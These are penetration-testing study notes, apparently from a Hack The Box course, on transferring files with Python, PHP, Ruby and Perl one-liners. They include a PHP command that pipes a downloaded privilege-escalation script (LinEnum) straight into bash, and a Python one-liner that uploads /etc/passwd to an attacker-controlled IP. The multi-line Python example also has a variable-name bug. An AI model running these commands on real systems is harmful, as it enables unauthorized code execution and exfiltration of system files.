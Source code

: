 

# Introduction :

In this Chapter we gonna learn more about transfering Files with programming languages Like #Python #PHP, #Perl and #Ruby .

# Python :

## Python 2 -Download :

```shell
Thibovski@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## Python 3 - Download :

```shell
Thibovski@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

# PHP :

- #PHP Provides multiple File Transfer methods.
- In this example we will use the PHP <mark style="background: #ADCCFFA6;">file_get_contents() </mark>Module to download contents from a website combined with the Module <mark style="background: #ADCCFFA6;">file_put_contents()</mark> Module to save the File into a directory.
- PHP can be rund from the command line using the option ```-r``` 

## PHP Download with File_get_contents() :

```shell
Thibovski@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## PHP Download with Fopen():

An alternative to the #File_get_contents and #file_put_contents  is #fpopen to open URL, read and save the content.

```shell
Thibovski@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

## PHP Download a File and Pipe it to Bash :

Send the downloaded content to a pipe (Bash).

```shell
Thibovski@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

# Other Languages :

## Ruby - Download a File :

```shell
Thibovski@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

## Perl - Download a File :

```shell
Thibovski@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

# Upload Operations using Python3 :

The #Python_Upload Module allows you to send HTTP requests and upload a File into the giving Address or LocalHost.
More about Python Upload Module : [Python_Upload(GitHub)](https://github.com/Densaugeo/uploadserver)

## Starting the Python Upload Module :

```shell
Thibovski@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Uploading a File using a Python One-Liner :

```shell
Thibovski@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

To understand this Code we gonna write it in multiple Lines :

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

We can do the same thing with any other programming languages.

